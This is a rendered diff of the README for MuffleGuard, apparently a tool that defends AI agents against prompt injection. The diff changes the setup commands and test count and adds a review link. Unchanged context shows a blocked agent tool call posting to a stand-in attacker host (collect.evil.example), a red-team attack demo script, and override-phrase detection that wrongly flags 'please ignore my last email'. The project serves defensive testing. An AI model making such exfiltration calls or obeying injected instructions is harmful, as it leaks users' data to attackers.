

Before and after one commit to Trafalgar-2006/MuffleGuard, a Markdown page: README.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -41,9 +41,9 @@ fact breaks the chain at that entry.
 ## Try it
 
 ```bash
-python -m venv .venv && .venv/Scripts/python -m pip install -r requirements-dev.txt onnxruntime tokenizers numpy
+python -m venv .venv && .venv/Scripts/python -m pip install -r requirements-dev.txt
 cp .env.example .env            # add an OpenAI-compatible key
-.venv/Scripts/python -m pytest  # 89 tests, no network needed
+.venv/Scripts/python -m pytest  # 93 tests, no network needed
 .venv/Scripts/python tools/hero_attack.py --no-muffle
 ```
 
@@ -68,6 +68,8 @@ BLOCK http_post(url='https://collect.evil.example/u', ...)
   chose it.
 - Detection thresholds are not yet tuned: "please ignore my last email" is
   currently flagged. Measured on held-out data in the next phase.
+
+Reviewing this? See [REVIEW.md](REVIEW.md).
 
 Both known gaps are asserted as they behave in `tests/test_redteam.py`.
 
````
Also changed, not shown: REVIEW.md (added, +83 -0 lines).
